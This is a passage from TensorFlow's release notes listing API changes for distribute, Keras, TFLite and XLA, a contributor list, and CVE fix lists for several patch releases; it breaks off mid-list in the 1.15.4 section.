  * Introduces experimental support for asynchronous training of models via
  `tf.distribute.experimental.ParameterServerStrategy`:
    * Replaces the existing `tf.distribute.experimental.ParameterServerStrategy`
  symbol with a new class that is for parameter server training in TF2. Usage of
  the old symbol, usually with Estimator API, should be **replaced** with
  [`tf.compat.v1.distribute.experimental.ParameterServerStrategy`].
    * Added `tf.distribute.experimental.coordinator.*` namespace, including the
  main API `ClusterCoordinator` for coordinating the training cluster, the
  related data structure `RemoteValue` and `PerWorkerValue`.
  * `MultiWorkerMirroredStrategy`](https://www.tensorflow.org/api_docs/python/tf/distribute/MultiWorkerMirroredStrategy)
  is now a stable API and is no longer considered experimental. Some of the major
  improvements involve handling peer failure and many bug fixes. Please check out
  the detailed tutorial on [Multi-worer training with Keras](https://www.tensorflow.org/tutorials/distribute/multi_worker_with_keras).
  * Adds `tf.distribute.Strategy.gather` and `tf.distribute.ReplicaContext.all_gather`
  APIs to support gathering dense distributed values.
  * Fixes various issues with saving a distributed model.

### `tf.keras`:
  * Improvements from the Functional API refactoring:
    * Functional model construction does not need to maintain a global workspace
  graph, removing memory leaks especially when building many models or very large models.
    * Functional model construction should be ~8-10% faster on average.
    * Functional models can now contain non-symbolic values in their call inputs
  inside of the first positional argument.
    * Several classes of TF ops that were not reliably converted to Keras layers
  during functional API construction should now work, e.g.`tf.image.ssim_multiscale`
    * Error messages when Functional API construction goes wrong (and when ops cannot be converted to Keras layers automatically) should be
      clearer and easier to understand.
  * `Optimizer.minimize` can now accept a loss `Tensor` and a `GradientTape`
  as an alternative to accepting a `callable` loss.
  * Adds `beta` hyperparameter to [FTRL](https://www.tensorflow.org/api_docs/python/tf/keras/optimizers/Ftrl)
  optimizer classes (Keras and others) to match [FTRL paper](https://research.google.com/pubs/archive/41159.pdf).
  * `Optimizer.__init__` now accepts a `gradient_aggregator` to allow for customization
  of how gradients are aggregated across devices, as well as `gradients_transformers`
  to allow for custom gradient transformations (such as gradient clipping).
  * Improvements to Keras preprocessing layers:
    * TextVectorization can now accept a vocabulary list or file as an init arg.
    * Normalization can now accept mean and variance values as init args.
  * In `Attention` and `AdditiveAttention` layers, the `call()` method now accepts a `return_attention_scores` argument. When set to
    True, the layer returns the attention scores as an additional output argument.
  * Adds `tf.metrics.log_cosh` and `tf.metrics.logcosh` API entrypoints with the
  same implementation as their `tf.losses` equivalent.
  * For Keras model, the individual call of `Model.evaluate` uses no cached data
  for evaluation, while `Model.fit` uses cached data when `validation_data` arg
  is provided for better performance.
  * Adds a `save_traces` argument to `model.save`/ `tf.keras.models.save_model`
  which determines whether the SavedModel format stores the Keras model/layer call
  functions. The traced functions allow Keras to revive custom models and layers
  without the original class definition, but if this isn't required the tracing
  can be disabled with the added option.
  * The `tf.keras.mixed_precision` API is now non-experimental.
  The non-experimental API differs from the experimental API in several ways.
    * `tf.keras.mixed_precision.Policy` no longer takes in a `tf.mixed_precision.
  experimental.LossScale` in the constructor, and no longer has a `LossScale`
  associated with it. Instead, `Model.compile` will automatically wrap the optimizer
  with a `LossScaleOptimizer` using dynamic loss scaling if `Policy.name`
  is "mixed_float16".
    * `tf.keras.mixed_precision.LossScaleOptimizer`'s constructor takes in different
  arguments. In particular, it no longer takes in a `LossScale`, and there is
  no longer a `LossScale` associated with the `LossScaleOptimizer`. Instead,
  `LossScaleOptimizer` directly implements fixed or dynamic loss scaling. See the
  documentation of [`tf.keras.mixed_precision.experimental.LossScaleOptimizer`]
  (https://www.tensorflow.org/api_docs/python/tf/keras/mixed_precision/experimental/LossScaleOptimizer?version=nightly)
  for details on the differences between the experimental `LossScaleOptimizer`
  and the new non-experimental `LossScaleOptimizer`.
    * `tf.mixed_precision.experimental.LossScale` and its subclasses are
  deprecated, as all of its functionality now exists within `tf.keras.mixed_precision.LossScaleOptimizer`

### `tf.lite`:
  * `TFLiteConverter`:
    * Support optional flags `inference_input_type` and `inference_output_type`
  for full integer quantized models. This allows users to modify the model input
  and output type to integer types (`tf.int8`, `tf.uint8`) instead of defaulting
  to float type (`tf.float32`).
  * NNAPI
    * Adds NNAPI Delegation support for requantization use cases by converting
  the operation into a dequantize-quantize pair.
    * Removes deprecated `Interpreter.setUseNNAPI(boolean)` Java API. Use
  `Interpreter.Options.setUseNNAPI` instead.
    * Deprecates `Interpreter::UseNNAPI(bool)` C++ API. Use `NnApiDelegate()`
  and related delegate configuration methods directly.
    * Deprecates `Interpreter::SetAllowFp16PrecisionForFp32(bool)` C++ API.
  Prefer controlling this via delegate options, e.g. `tflite::StatefulNnApiDelegate::Options::allow_fp16'
  or `TfLiteGpuDelegateOptionsV2::is_precision_loss_allowed`.
  * GPU
    * GPU acceleration now supports quantized models by default
  * `DynamicBuffer::AddJoinedString()` will now add a separator if the first string to be joined is empty.
  *  Adds support for cumulative sum (cumsum), both as builtin op and MLIR conversion.

### `TensorRT`
  * Issues a warning when the `session_config` parameter for the TF1 converter
  is used or the `rewrite_config_template` field in the TF2 converter parameter
  object is used.

### TPU Enhancements:
  * Adds support for the `beta` parameter of the FTRL optimizer for TPU
  embeddings. Users of other TensorFlow platforms can implement equivalent
  behavior by adjusting the `l2` parameter.

### XLA Support:
  * xla.experimental.compile is deprecated, use `tf.function(experimental_compile=True)` instead.
  * Adds `tf.function.experimental_get_compiler_ir` which returns compiler IR
  (currently 'hlo' and 'optimized_hlo') for given input for given function.

### Security:
  * Fixes an undefined behavior causing a segfault in `tf.raw_ops.Switch`,
  ([CVE-2020-15190](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15190))
  * Fixes three vulnerabilities in conversion to DLPack format
    * [CVE-2020-15191](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15191),
    * [CVE-2020-15192](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15192),
    * [CVE-2020-15193](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15193)
  * Fixes two vulnerabilities in `SparseFillEmptyRowsGrad`
    * [CVE-2020-15194](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15194),
    * [CVE-2020-15195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15195)
  * Fixes several vulnerabilities in `RaggedCountSparseOutput` and `SparseCountSparseOutput` operations
    * [CVE-2020-15196](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15196),
    * [CVE-2020-15197](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15197),
    * [CVE-2020-15198](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15198),
    * [CVE-2020-15199](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15199),
    * [CVE-2020-15200](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15200),
    * [CVE-2020-15201](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15201)
  * Fixes an integer truncation vulnerability in code using the work sharder API,
  ([CVE-2020-15202](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15202))
  * Fixes a format string vulnerability in `tf.strings.as_string`,
  ([CVE-2020-15203](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15203))
  * Fixes segfault raised by calling session-only ops in eager mode,
  ([CVE-2020-15204](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15204))
  * Fixes data leak and potential ASLR violation from `tf.raw_ops.StringNGrams`,
  ([CVE-2020-15205](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15205))
  * Fixes segfaults caused by incomplete `SavedModel` validation,
  ([CVE-2020-15206](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15206))
  * Fixes a data corruption due to a bug in negative indexing support in TFLite,
  ([CVE-2020-15207](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15207))
  * Fixes a data corruption due to dimension mismatch in TFLite,
  ([CVE-2020-15208](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15208))
  * Fixes several vulnerabilities in TFLite saved model format
    * [CVE-2020-15209](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15209),
    * [CVE-2020-15210](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15210),
    * [CVE-2020-15211](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15211)
  * Fixes several vulnerabilities in TFLite implementation of segment sum
    * [CVE-2020-15212](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15212),
    * [CVE-2020-15213](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15213),
    * [CVE-2020-15214](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15214)
  * Fixes a segfault in `tf.quantization.quantize_and_dequantize`,
  ([CVE-2020-15265](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15265))
  * Fixes an undefined behavior float cast causing a crash,
  ([CVE-2020-15266](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15266))
  * Fixes a lack of validation in `tf.raw_ops.DataFormatVecPermute` and
  `tf.raw_ops.DataFormatDimMap` which can cause uninitialized memory access,
  read outside bounds of arrays, data corruption and segmentation faults
  ([CVE-2020-26267](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26267))
  * Fixes a crash caused by writing to read only memory region
  ([CVE-2020-26268](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26268))
  * Fixes a heap out of bounds access in filesystem globbing implementation
  ([CVE-2020-26269](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26269))

### Other:
  * We have replaced uses of "whitelist" and "blacklist" with "allowlist" and
  "denylist" where possible. Please see [this list](https://developers.google.com/style/word-list#blacklist) for more context.
  * Adds `tf.config.experimental.mlir_bridge_rollout` which will help us rollout the new MLIR TPU bridge.
  * Adds `tf.experimental.register_filesystem_plugin` to load modular filesystem plugins from Python

## Thanks to our Contributors

This release contains contributions from many people at Google as well as the following external contributors:

8bitmp3, aaa.jq, Abhineet Choudhary, Abolfazl Shahbazi, acxz, Adam Hillier, Adrian Garcia Badaracco, Ag Ramesh, ahmedsabie, Alan Anderson, Alexander Grund, Alexandre Lissy, Alexey Ivanov, Amedeo Cavallo, anencore94, Aniket Kumar Singh, Anthony Platanios, Ashwin Phadke, Balint Cristian, Basit Ayantunde, bbbboom, Ben Barsdell, Benjamin Chetioui, Benjamin Peterson, bhack, Bhanu Prakash Bandaru Venkata, Biagio Montaruli, Brent M. Spell, bubblebooy, bzhao, cfRod, Cheng Chen, Cheng(Kit) Chen, Chris Tessum, Christian, chuanqiw, codeadmin_peritiae, COTASPAR, CuiYifeng, danielknobe, danielyou0230, dannyfriar, daria, DarrenZhang01, Denisa Roberts, dependabot[bot], Deven Desai, Dmitry Volodin, Dmitry Zakharov, drebain, Duncan Riach, Eduard Feicho, Ehsan Toosi, Elena Zhelezina, emlaprise2358, Eugene Kuznetsov, Evaderan-Lab, Evgeniy Polyakov, Fausto Morales, Felix Johnny, fo40225, Frederic Bastien, Fredrik Knutsson, fsx950223, Gaurav Singh, Gauri1 Deshpande, George Grzegorz Pawelczak, gerbauz, Gianluca Baratti, Giorgio Arena, Gmc2, Guozhong Zhuang, Hannes Achleitner, Harirai, HarisWang, Harsh188, hedgehog91, Hemal Mamtora, Hideto Ueno, Hugh Ku, Ian Beauregard, Ilya Persky, jacco, Jakub Beránek, Jan Jongboom, Javier Montalt Tordera, Jens Elofsson, Jerry Shih, jerryyin, jgehw, Jinjing Zhou, jma, jmsmdy, Johan Nordström, John Poole, Jonah Kohn, Jonathan Dekhtiar, jpodivin, Jung Daun, Kai Katsumata, Kaixi Hou, Kamil Rakoczy, Kaustubh Maske Patil, Kazuaki Ishizaki, Kedar Sovani, Koan-Sin Tan, Koki Ibukuro, Krzysztof Laskowski, Kushagra Sharma, Kushan Ahmadian, Lakshay Tokas, Leicong Li, levinxo, Lukas Geiger, Maderator, Mahmoud Abuzaina, Mao Yunfei, Marius Brehler, markf, Martin Hwasser, Martin Kubovčík, Matt Conley, Matthias, mazharul, mdfaijul, Michael137, MichelBr, Mikhail Startsev, Milan Straka, Ml-0, Myung-Hyun Kim, Måns Nilsson, Nathan Luehr, ngc92, nikochiko, Niranjan Hasabnis, nyagato_00, Oceania2018, Oleg Guba, Ongun Kanat, OscarVanL, Patrik Laurell, Paul Tanger, Peter Sobot, Phil Pearl, PlusPlusUltra, Poedator, Prasad Nikam, Rahul-Kamat, Rajeshwar Reddy T, redwrasse, Rickard, Robert Szczepanski, Rohan Lekhwani, Sam Holt, Sami Kama, Samuel Holt, Sandeep Giri, sboshin, Sean Settle, settle, Sharada Shiddibhavi, Shawn Presser, ShengYang1, Shi,Guangyong, Shuxiang Gao, Sicong Li, Sidong-Wei, Srihari Humbarwadi, Srinivasan Narayanamoorthy, Steenu Johnson, Steven Clarkson, stjohnso98, Tamas Bela Feher, Tamas Nyiri, Tarandeep Singh, Teng Lu, Thibaut Goetghebuer-Planchon, Tim Bradley, Tomasz Strejczek, Tongzhou Wang, Torsten Rudolf, Trent Lo, Ty Mick, Tzu-Wei Sung, Varghese, Jojimon, Vignesh Kothapalli, Vishakha Agrawal, Vividha, Vladimir Menshakov, Vladimir Silyaev, VoVAllen, Võ Văn Nghĩa, wondertx, xiaohong1031, Xiaoming (Jason) Cui, Xinan Jiang, Yair Ehrenwald, Yasir Modak, Yasuhiro Matsumoto, Yimei Sun, Yiwen Li, Yixing, Yoav Ramon, Yong Tang, Yong Wu, yuanbopeng, Yunmo Koo, Zhangqiang, Zhou Peng, ZhuBaohe, zilinzhu, zmx


# Release 2.3.1

## Bug Fixes and Other Changes
* Fixes an undefined behavior causing a segfault in `tf.raw_ops.Switch`
  ([CVE-2020-15190](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15190))
* Fixes three vulnerabilities in conversion to DLPack format
  ([CVE-2020-15191](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15191),
  [CVE-2020-15192](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15192),
  [CVE-2020-15193](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15193))
* Fixes two vulnerabilities in `SparseFillEmptyRowsGrad`
  ([CVE-2020-15194](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15194),
  [CVE-2020-15195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15195))
* Fixes several vulnerabilities in `RaggedCountSparseOutput` and
  `SparseCountSparseOutput` operations
  ([CVE-2020-15196](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15196),
  [CVE-2020-15197](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15197),
  [CVE-2020-15198](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15198),
  [CVE-2020-15199](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15199),
  [CVE-2020-15200](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15200),
  [CVE-2020-15201](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15201))
* Fixes an integer truncation vulnerability in code using the work sharder API
  ([CVE-2020-15202](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15202))
* Fixes a format string vulnerability in `tf.strings.as_string`
  ([CVE-2020-15203](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15203))
* Fixes segfault raised by calling session-only ops in eager mode
  ([CVE-2020-15204](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15204))
* Fixes data leak and potential ASLR violation from `tf.raw_ops.StringNGrams`
  ([CVE-2020-15205](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15205))
* Fixes segfaults caused by incomplete `SavedModel` validation
  ([CVE-2020-15206](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15206))
* Fixes a data corruption due to a bug in negative indexing support in TFLite
  ([CVE-2020-15207](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15207))
* Fixes a data corruption due to dimension mismatch in TFLite
  ([CVE-2020-15208](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15208))
* Fixes several vulnerabilities in TFLite saved model format
  ([CVE-2020-15209](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15209),
  [CVE-2020-15210](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15210),
  [CVE-2020-15211](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15211))
* Fixes several vulnerabilities in TFLite implementation of segment sum
  ([CVE-2020-15212](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15212),
  [CVE-2020-15213](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15213),
  [CVE-2020-15214](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15214))
* Updates `sqlite3` to `3.33.00` to handle
  [CVE-2020-15358](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15358).
* Fixes deprecated usage of `collections` API
* Removes `scipy` dependency from `setup.py` since TensorFlow does not need it
  to install the pip package


# Release 2.2.1

## Bug Fixes and Other Changes
* Fixes an undefined behavior causing a segfault in `tf.raw_ops.Switch`
  ([CVE-2020-15190](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15190))
* Fixes three vulnerabilities in conversion to DLPack format
  ([CVE-2020-15191](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15191),
  [CVE-2020-15192](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15192),
  [CVE-2020-15193](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15193))
* Fixes two vulnerabilities in `SparseFillEmptyRowsGrad`
  ([CVE-2020-15194](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15194),
  [CVE-2020-15195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15195))
* Fixes an integer truncation vulnerability in code using the work sharder API
  ([CVE-2020-15202](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15202))
* Fixes a format string vulnerability in `tf.strings.as_string`
  ([CVE-2020-15203](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15203))
* Fixes segfault raised by calling session-only ops in eager mode
  ([CVE-2020-15204](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15204))
* Fixes data leak and potential ASLR violation from `tf.raw_ops.StringNGrams`
  ([CVE-2020-15205](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15205))
* Fixes segfaults caused by incomplete `SavedModel` validation
  ([CVE-2020-15206](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15206))
* Fixes a data corruption due to a bug in negative indexing support in TFLite
  ([CVE-2020-15207](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15207))
* Fixes a data corruption due to dimension mismatch in TFLite
  ([CVE-2020-15208](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15208))
* Fixes several vulnerabilities in TFLite saved model format
  ([CVE-2020-15209](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15209),
  [CVE-2020-15210](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15210),
  [CVE-2020-15211](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15211))
* Fixes several vulnerabilities in TFLite implementation of segment sum
  ([CVE-2020-15212](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15212),
  [CVE-2020-15213](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15213),
  [CVE-2020-15214](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15214))
* Updates `sqlite3` to `3.33.00` to handle
  [CVE-2020-9327](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9327),
  [CVE-2020-11655](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11655),
  [CVE-2020-11656](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11656),
  [CVE-2020-13434](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13434),
  [CVE-2020-13435](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13435),
  [CVE-2020-13630](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13630),
  [CVE-2020-13631](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13631),
  [CVE-2020-13871](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13871),
  and
  [CVE-2020-15358](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15358).
* Fixes deprecated usage of `collections` API
* Removes `scipy` dependency from `setup.py` since TensorFlow does not need it
  to install the pip package


# Release 2.1.2

## Bug Fixes and Other Changes
* Fixes an undefined behavior causing a segfault in `tf.raw_ops.Switch`
  ([CVE-2020-15190](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15190))
* Fixes three vulnerabilities in conversion to DLPack format
  ([CVE-2020-15191](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15191),
  [CVE-2020-15192](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15192),
  [CVE-2020-15193](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15193))
* Fixes two vulnerabilities in `SparseFillEmptyRowsGrad`
  ([CVE-2020-15194](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15194),
  [CVE-2020-15195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15195))
* Fixes an integer truncation vulnerability in code using the work sharder API
  ([CVE-2020-15202](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15202))
* Fixes a format string vulnerability in `tf.strings.as_string`
  ([CVE-2020-15203](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15203))
* Fixes segfault raised by calling session-only ops in eager mode
  ([CVE-2020-15204](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15204))
* Fixes data leak and potential ASLR violation from `tf.raw_ops.StringNGrams`
  ([CVE-2020-15205](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15205))
* Fixes segfaults caused by incomplete `SavedModel` validation
  ([CVE-2020-15206](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15206))
* Fixes a data corruption due to a bug in negative indexing support in TFLite
  ([CVE-2020-15207](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15207))
* Fixes a data corruption due to dimension mismatch in TFLite
  ([CVE-2020-15208](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15208))
* Fixes several vulnerabilities in TFLite saved model format
  ([CVE-2020-15209](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15209),
  [CVE-2020-15210](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15210),
  [CVE-2020-15211](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15211))
* Updates `sqlite3` to `3.33.00` to handle
  [CVE-2020-9327](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9327),
  [CVE-2020-11655](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11655),
  [CVE-2020-11656](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11656),
  [CVE-2020-13434](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13434),
  [CVE-2020-13435](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13435),
  [CVE-2020-13630](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13630),
  [CVE-2020-13631](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13631),
  [CVE-2020-13871](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13871),
  and
  [CVE-2020-15358](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15358).
* Removes `scipy` dependency from `setup.py` since TensorFlow does not need it
  to install the pip package
* Switches ROCM builds to use ROCM 3.7


# Release 2.0.3

## Bug Fixes and Other Changes
* Fixes an undefined behavior causing a segfault in `tf.raw_ops.Switch`
  ([CVE-2020-15190](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15190))
* Fixes three vulnerabilities in conversion to DLPack format
  ([CVE-2020-15191](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15191),
  [CVE-2020-15192](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15192),
  [CVE-2020-15193](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15193))
* Fixes two vulnerabilities in `SparseFillEmptyRowsGrad`
  ([CVE-2020-15194](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15194),
  [CVE-2020-15195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15195))
* Fixes an integer truncation vulnerability in code using the work sharder API
  ([CVE-2020-15202](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15202))
* Fixes a format string vulnerability in `tf.strings.as_string`
  ([CVE-2020-15203](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15203))
* Fixes segfault raised by calling session-only ops in eager mode
  ([CVE-2020-15204](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15204))
* Fixes data leak and potential ASLR violation from `tf.raw_ops.StringNGrams`
  ([CVE-2020-15205](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15205))
* Fixes segfaults caused by incomplete `SavedModel` validation
  ([CVE-2020-15206](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15206))
* Fixes a data corruption due to a bug in negative indexing support in TFLite
  ([CVE-2020-15207](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15207))
* Fixes a data corruption due to dimension mismatch in TFLite
  ([CVE-2020-15208](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15208))
* Fixes several vulnerabilities in TFLite saved model format
  ([CVE-2020-15209](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15209),
  [CVE-2020-15210](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15210),
  [CVE-2020-15211](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15211))
* Updates `sqlite3` to `3.33.00` to handle
  [CVE-2020-9327](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9327),
  [CVE-2020-11655](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11655),
  [CVE-2020-11656](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11656),
  [CVE-2020-13434](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13434),
  [CVE-2020-13435](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13435),
  [CVE-2020-13630](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13630),
  [CVE-2020-13631](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13631),
  [CVE-2020-13871](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13871),
  and
  [CVE-2020-15358](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15358).
* Pins `numpy` to 1.18.5 to prevent ABI breakage when compiling code that uses
  both NumPy and TensorFlow headers.


# Release 1.15.4

## Bug Fixes and Other Changes
* Fixes an undefined behavior causing a segfault in `tf.raw_ops.Switch`
  ([CVE-2020-15190](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15190))
* Fixes three vulnerabilities in conversion to DLPack format
  ([CVE-2020-15191](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15191),
  [CVE-2020-15192](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15192),
  [CVE-2020-15193](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15193))
* Fixes two vulnerabilities in `SparseFillEmptyRowsGrad`
  ([CVE-2020-15194](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15194),
  [CVE-2020-15195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15195))
* Fixes an integer truncation vulnerability in code using the work sharder API
  ([CVE-2020-15202](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15202))
* Fixes a format string vulnerability in `tf.strings.as_string`
  ([CVE-2020-15203](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15203))
* Fixes segfault raised by calling session-only ops in eager mode
  ([CVE-2020-15204](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15204))
* Fixes data leak and potential ASLR violation from `tf.raw_ops.StringNGrams`
  ([CVE-2020-15205](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15205))
* Fixes segfaults caused by incomplete `SavedModel` validation
  ([CVE-2020-15206](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15206))
* Fixes a data corruption due to a bug in negative indexing support in TFLite
  ([CVE-2020-15207](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15207))
* Fixes a data corruption due to dimension mismatch in TFLite
  ([CVE-2020-15208](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15208))
* Fixes several vulnerabilities in TFLite saved model format
